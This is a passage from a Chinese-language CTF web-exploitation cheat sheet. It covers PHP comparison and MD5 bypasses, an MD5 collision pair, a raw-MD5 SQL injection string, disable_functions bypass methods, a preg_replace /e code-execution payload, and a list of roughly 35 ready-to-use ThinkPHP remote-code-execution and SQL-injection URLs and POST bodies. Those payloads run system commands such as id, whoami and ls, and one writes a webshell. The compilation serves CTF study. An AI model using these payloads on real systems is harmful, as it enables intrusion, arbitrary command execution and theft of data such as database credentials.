输入`ffifdyop`查询的时候，查询语句变成：

```sql
SELECT * FROM admin WHERE username = 'admin' and password = ''or'6 ]  !r,  b' 
1
```

在mysql中，字符串用作bool判断的时候，会提取字符串开头到第一个非数字的字符串转化为数字，若大于0则返回true否则返回false，因此这里查询语句为真

#### is_numeric&&strcmp

- `is_numeric()`是检测变量是否为数字或者数字字符串，`is_numeric`函数对于空字符`%00`，无论是`%00`放在前后都可以判断为非数值，而`%20`空格字符只能放在数值后
- 如果是大小比较可用科学计数法绕过
- PHP strcmp(str1，str2) 函数：比较两个字符串（区分大小写）。如果 str1 小于 str2 返回 < 0； 如果 str1  大于 str2 返回 > 0；如果两者相等返回  0。可知，期望传入的数据类型是字符串类型，如果传入非字符串类型的数据，这个函数将发生错误。在php  5.2版本以及之前的版本中，利用strcmp函数将数组与字符串进行比较会返回-1，但是从5.3开始，会返回0

##### 数组绕过

`md5()`函数中如果传入的不是字符串而是数组，不但`md5()`函数不会报错，结果还会返回`null`，在强比较里面`null=null`为`true`绕过

##### fastcoll生成相同的MD5

适用于`(string)$_POST['final_str1'] !== (string)$_POST['final_str2']`这样有强制类型转换的，此时数组无法绕过
 以下两个参数的MD5值相同（fastcoll.exe生成）

```python
#编码后传输，有不可见字符
# Content-Type: application/x-www-form-urlencoded
final_str1=%4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%00%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%55%5d%83%60%fb%5f%07%fe%a2
final_str2=%4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%02%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%d5%5d%83%60%fb%5f%07%fe%a2
```

#### Strpos

strpos函数匹配的时候会返回模式在字符串中的位置，当在首字符匹配的时候，会返回0，若直接用返回值作为if的条件比较：
 `user='<1111'&&pass='<1111'`即可通过比较

```php
    if (
      (!strpos($user, '<') || !strpos($user, '>')) &&
      (!strpos($pass, '<') || !strpos($pass, '>'))
    )
1234
```

#### PHP的字符串解析特性

PHP将查询字符串（在URL或正文中）转换为内部`$_GET`或的关联数组`$_POST`。
 例如：`/?foo=bar`变成`Array([foo] => "bar"`)。
 值得注意的是，查询字符串在解析的过程中会将某些字符删除或用下划线代替
 例如，`/?%20news[id%00=42`会转换为`Array([news_id] => 42)`

若过滤下划线可用.或者+代替，例如f_name可用f.name或者f+name代替
 eval等执行函数的时候，若过滤了system、exec等关键字，可尝试加\，如\system，参照2020朱雀组 phpweb

#### Bypass disable_function

[原理](https://cloud.tencent.com/developer/article/2069788)

- LD_PRELOAD
- [Shellshock](https://blog.csdn.net/qq_39249347/article/details/107135439)
- Fastcgi
- PHP-FPM
- Apache_mod_cgi
- JSON_Serialize_UAF
- PHP7_GC_UAF
- PHP7_Backtrace_UAF
- PHP74_FFI
  使用蚁剑插件：绕过disable_functions即可

#### preg_replace

##### 漏洞原理

`preg_replace(pattern，replacement，subject)`
 `/e`修正符使`preg_replace()`将`replacement`参数当作`PHP`代码（在适当的逆向引用替换完之后）。
 ps：要确保`replacement`构成一个合法的`PHP`代码字符串，否则`PHP`会在报告在包含 `preg_replace()`的行中出现语法解析错误。

##### 攻击方式

```
?pattern=/evil/e&replacement=system('find -name *flag*')&subject=evil
```

#### ThinkPHP RCE

##### 漏洞原理

[ThinkPHP RCE漏洞分析合集](https://www.bilibili.com/read/cv10345589)

##### 攻击方式

```bash
thinkphp 5.0.22

1、http://192.168.1.1/thinkphp/public/?s=.|think\config/get&name=database.username
2、http://192.168.1.1/thinkphp/public/?s=.|think\config/get&name=database.password
3、http://url/to/thinkphp_5.0.22/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id
4、http://url/to/thinkphp_5.0.22/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1
thinkphp 5

5、http://127.0.0.1/tp5/public/?s=index/\think\View/display&content=%22%3C?%3E%3C?php%20phpinfo();?%3E&data=1
thinkphp 5.0.21

6、http://localhost/thinkphp_5.0.21/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id
7、http://localhost/thinkphp_5.0.21/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1
thinkphp 5.1.*

8、http://url/to/thinkphp5.1.29/?s=index/\think\Request/input&filter=phpinfo&data=1
9、http://url/to/thinkphp5.1.29/?s=index/\think\Request/input&filter=system&data=cmd
10、http://url/to/thinkphp5.1.29/?s=index/\think\template\driver\file/write&cacheFile=shell.php&content=%3C?php%20phpinfo();?%3E
11、http://url/to/thinkphp5.1.29/?s=index/\think\view\driver\Php/display&content=%3C?php%20phpinfo();?%3E
12、http://url/to/thinkphp5.1.29/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1
13、http://url/to/thinkphp5.1.29/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=cmd
14、http://url/to/thinkphp5.1.29/?s=index/\think\Container/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1
15、http://url/to/thinkphp5.1.29/?s=index/\think\Container/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=cmd
未知版本

16、?s=index/\think\module/action/param1/${@phpinfo()}
17、?s=index/\think\Module/Action/Param/${@phpinfo()}
18、?s=index/\think/module/aciton/param1/${@print(THINK_VERSION)}
19、index.php?s=/home/article/view_recent/name/1'
header = "X-Forwarded-For:1') and extractvalue(1, concat(0x5c,(select md5(233))))#"
20、index.php?s=/home/shopcart/getPricetotal/tag/1%27
21、index.php?s=/home/shopcart/getpriceNum/id/1%27
22、index.php?s=/home/user/cut/id/1%27
23、index.php?s=/home/service/index/id/1%27
24、index.php?s=/home/pay/chongzhi/orderid/1%27
25、index.php?s=/home/pay/index/orderid/1%27
26、index.php?s=/home/order/complete/id/1%27
27、index.php?s=/home/order/complete/id/1%27
28、index.php?s=/home/order/detail/id/1%27
29、index.php?s=/home/order/cancel/id/1%27
30、index.php?s=/home/pay/index/orderid/1%27)%20UNION%20ALL%20SELECT%20md5(233)--+
31、POST /index.php?s=/home/user/checkcode/ HTTP/1.1
Content-Disposition: form-data; name="couponid"
1') union select sleep('''+str(sleep_time)+''')#
thinkphp 5.0.23（完整版）debug模式

32、(post)public/index.php (data)_method=__construct&filter[]=system&server[REQUEST_METHOD]=touch%20/tmp/xxx
thinkphp 5.0.23(完整版)

33、（post）public/index.php?s=captcha (data) _method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=ls -al
thinkphp 5.0.10（完整版）

34、(post)public/index.php?s=index/index/index (data)s=whoami&_method=__construct&method&filter[]=system
thinkphp 5.1.* 和 5.2.* 和 5.0.*

35、(post)public/index.php (data)c=exec&f=calc.exe&_method=filter
1234567891011121314151617181920212223242526272829303132333435363738394041424344454647484950515253545556
```

### 0X12 其他

[strings $(find . | xargs) | grep flag](https://blog.csdn.net/qq_36438489/article/details/120632296)
 [（单引号逃逸、nmap写文件）](https://www.cnblogs.com/zhengna/p/15926015.html)
 [http基础认证](http://t.zoukankan.com/songwufan-p-13860290.html)
 [js 代码混淆处理办法](https://blog.csdn.net/zhang_qings/article/details/122360736)
 [命令执行写马的正确方式](https://www.cnblogs.com/bk76120/p/13760176.html)
 [VM沙箱逃逸-Buffer泄露数据](https://blog.csdn.net/l8947943/article/details/122267074)
 [JWT基础知识](https://www.wolai.com/ctfhub/hcFRbVUSwDUD1UTrPJbkob)
 [JWT修改签名算法](https://blog.csdn.net/m0_62879498/article/details/123903314)
 [flask_session伪造](https://blog.csdn.net/qq_45615127/article/details/117150993)